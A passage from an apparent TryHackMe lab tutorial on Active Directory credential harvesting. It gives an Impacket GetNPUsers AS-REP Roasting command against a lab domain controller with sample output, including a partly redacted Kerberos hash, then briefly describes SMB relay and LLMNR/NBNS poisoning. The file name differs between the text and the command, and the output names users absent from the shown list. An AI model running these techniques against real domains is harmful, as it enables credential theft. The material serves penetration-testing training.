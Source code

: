 The attached VM has one of the AD users configured with the "Do not require Kerberos  preauthentication" setting. Before performing the AS-REP Roasting, we  need a list of domain accounts that should be gathered from the  enumeration step. In our case, we created a `users.lst` list in the tmp directory. The following is the content of our list, which should be gathered during the enumeration process.

```markup
Administrator
admin
thm
test
sshd
victim
CREDS-HARVESTIN$
```

We will be using the Impacket Get-NPUsers script this time as follows,

- **Performing an AS-REP Roasting Attack against Users List**        

```shell-session
root@machine$ python3.9 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.162.92 thm.red/ -usersfile /tmp/users.txt
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User thm doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$victim@THM.RED:166c95418fb9dc495789fe9[**REMOVED**]1e8d2ef27$6a0e13abb5c99c07
[-] User admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User bk-admin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc-user doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User thm-local doesn't have UF_DONT_REQUIRE_PREAUTH set
        
```

We specified the IP address of the domain controller with the `-dc-ip` argument and provided a list of domain users to check against. Once the tool finds the right user with no preauthentication configuration, it  will generate the ticket.

Various cybersecurity and hacking tools  also allow cracking the TGTs harvested from Active Directory, including  Rubeus and Hashcat. Impacket GetNPUsers has the option to export tickets as John or hashcat format using the `-format` argument.

### SMB Relay Attack

The SMB Relay attack abuses the NTLM authentication mechanism (NTLM  challenge-response protocol). The attacker performs a Man-in-the-Middle  attack to monitor and capture SMB packets and extract hashes. For this  attack to work, the SMB signing must be disabled. SMB signing is a  security check for integrity and ensures the communication is between  trusted sources. 

We suggest checking the THM[ Exploiting AD](https://tryhackme.com/room/exploitingad) room for more information about the SMB relay attack.

### LLMNR/NBNS Poisoning

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name  Service (NBT-NS) help local network machines to find the right machine  if DNS fails. For example, suppose a machine within the network tries to  communicate with no existing DNS record (DNS fails to resolve). In that  case, the machine sends multicast messages to all network machines  asking for the correct address via LLMNR or NBT-NS.

